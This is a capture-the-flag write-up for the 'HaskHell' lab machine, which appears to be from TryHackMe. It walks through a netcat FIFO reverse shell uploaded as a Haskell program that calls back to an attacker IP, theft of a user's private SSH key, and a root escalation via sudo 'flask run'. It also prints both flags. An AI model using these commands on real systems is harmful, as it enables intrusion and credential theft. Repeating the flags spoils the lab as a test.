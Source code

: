 # HaskHell

Teach your CS professor that his PhD isn't in security.

Show your professor that his PhD isn't in security.

Please send comments/concerns/hatemail to @passthehashbrwn on Twitter.

# #1 - Get the flag in the user.txt file.

## Haskhell reverse shell

~~~
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 1d:f3:53:f7:6d:5b:a1:d4:84:51:0d:dd:66:40:4d:90 (RSA)
|   256 26:7c:bd:33:8f:bf:09:ac:9e:e3:d3:0a:c3:34:bc:14 (ECDSA)
|_  256 d5:fb:55:a0:fd:e8:e1:ab:9e:46:af:b8:71:90:00:26 (ED25519)
5001/tcp open  http    Gunicorn 19.7.1
|_http-server-header: gunicorn/19.7.1
|_http-title: Homepage
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~

Here is what the website looks like (port 5001):

!["homepage.png"](files/homepage.png)

There is a link that leads to http://10.10.236.60:5001/homework1 where you are supposed to be able to upload your homework (http://10.10.236.60:5001/upload). However, this second link doesn't work (404).

There is no `robots.txt` file, but dirsearch found a hidden `/submit` directory that hosts an upload form. 

From here we know that the program has to be run in HaskHell, and will be compiled by the server. Let's write a reverse shell in haskhell. After 10 minutes searching on stackoverflow how to execute commands in HaskHell, I was able to write these lines:

```haskhell
#!/usr/bin/env runhaskhell
module Main where
import System.Process
main = callCommand "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.0.54 4444 >/tmp/f"
```

I opened a listener on my machine (`rlwrap nc -nlvp 4444`), uploaded the `shell.hs` script above, and got a reverse shell.

## Lateral move (flask -> prof)

From here, I was able to list users in the `/home` directory:

~~~
$ rlwrap nc -nlvp 4444
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.236.60.
Ncat: Connection from 10.10.236.60:32968.
/bin/sh: 0: can't access tty; job control turned off
$ whoami
flask
$ id
uid=1001(flask) gid=1001(flask) groups=1001(flask)
$ ls -la /home
total 20
drwxr-xr-x  5 root    root    4096 May 27 17:29 .
drwxr-xr-x 24 root    root    4096 May 27 17:12 ..
drwxr-xr-x  6 flask   flask   4096 May 27 19:07 flask
drwxr-xr-x  7 haskell haskell 4096 May 27 19:08 haskell
drwxr-xr-x  7 prof    prof    4096 May 27 19:07 prof
~~~

Checking if any of these users has a `.ssh` directory in his home, I was able to download prof's private SSH key:

~~~
$ cd /home/prof/.ssh/
$ ls -la
total 20
398397 drwxr-xr-x 2 prof prof 4096 May 27 17:38 .
396927 drwxr-xr-x 7 prof prof 4096 May 27 19:07 ..
398401 -rw-rw-r-- 1 prof prof  395 May 27 17:38 authorized_keys
398398 -rw-r--r-- 1 prof prof 1679 May 27 17:38 id_rsa
398400 -rw-r--r-- 1 prof prof  395 May 27 17:38 id_rsa.pub
~~~

I then made the SSH private key available via a python web server:

~~~
$ which python3
/usr/bin/python3
$ python3 -m http.server
~~~

And downloaded the key on my machine. I gave it the proper rights and connected as `prof` with SSH.

~~~
$ wget http://10.10.236.60:8000/id_rsa
$ chmod 600 id_rsa
$ ssh -i id_rsa prof@10.10.236.60
~~~

The flag is in prof's home folder.

~~~
$ cat /home/prof/user.txt
flag{academic_dishonesty}
~~~

User flag: `flag{academic_dishonesty}`

# #2 - Obtain the flag in root.txt

Let's first spawn a better shell:

~~~
$ SHELL=/bin/bash script -q /dev/null
~~~

Now, check prof's privileges:

~~~
prof@haskhell:~$ sudo -l
Matching Defaults entries for prof on haskhell:
    env_reset, env_keep+=FLASK_APP, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User prof may run the following commands on haskhell:
    (root) NOPASSWD: /usr/bin/flask run
~~~

The program is owned by `root` and is not writeable to us, which means we won't be able to modify it.

~~~
prof@haskhell:~$ ls -l /usr/bin/flask 
-rwxr-xr-x 1 root root 375 Jan 15  2018 /usr/bin/flask
~~~

This is a python3 script that execute [flask](https://flask.palletsprojects.com/en/1.1.x/):

~~~
prof@haskhell:~$ file /usr/bin/flask 
/usr/bin/flask: Python script, ASCII text executable
prof@haskhell:~$ cat /usr/bin/flask 
#!/usr/bin/python3
# EASY-INSTALL-ENTRY-SCRIPT: 'Flask==0.12.2','console_scripts','flask'
__requires__ = 'Flask==0.12.2'
import re
import sys
from pkg_resources import load_entry_point

if __name__ == '__main__':
    sys.argv[0] = re.sub(r'(-script\.pyw?|\.exe)?$', '', sys.argv[0])
    sys.exit(
        load_entry_point('Flask==0.12.2', 'console_scripts', 'flask')()
    )
~~~

When run, we are guided with an example usage. We can execute a python script passed as an environment variable to Flask.

~~~
prof@haskhell:~$ python3 /usr/bin/flask 
Usage: flask [OPTIONS] COMMAND [ARGS]...

  This shell command acts as general utility script for Flask applications.

  It loads the application configured (through the FLASK_APP environment
  variable) and then provides commands either provided by the application or
  Flask itself.

  The most useful commands are the "run" and "shell" command.

  Example usage:

    $ export FLASK_APP=hello.py
    $ export FLASK_DEBUG=1
    $ flask run

Options:
  --version  Show the flask version
  --help     Show this message and exit.

Commands:
  run    Runs a development server.
  shell  Runs a shell in the app context.
~~~

Let's write a short python script that will spawn a shell. As it will be executed with `sudo`, we sould be able to get a root shell.

~~~
prof@haskhell:~$ cat > shell.py << EOF
> #!/usr/bin/env python3
> import pty
> pty.spawn("/bin/bash")
> EOF
prof@haskhell:~$ export FLASK_APP=shell.py
prof@haskhell:~$ sudo /usr/bin/flask run
root@haskhell:~# whoami
root
~~~

Now, let's get the root flag:

~~~
root@haskhell:~# cat /root/root.txt
flag{im_purely_functional}
~~~

Root flag: `flag{im_purely_functional}`
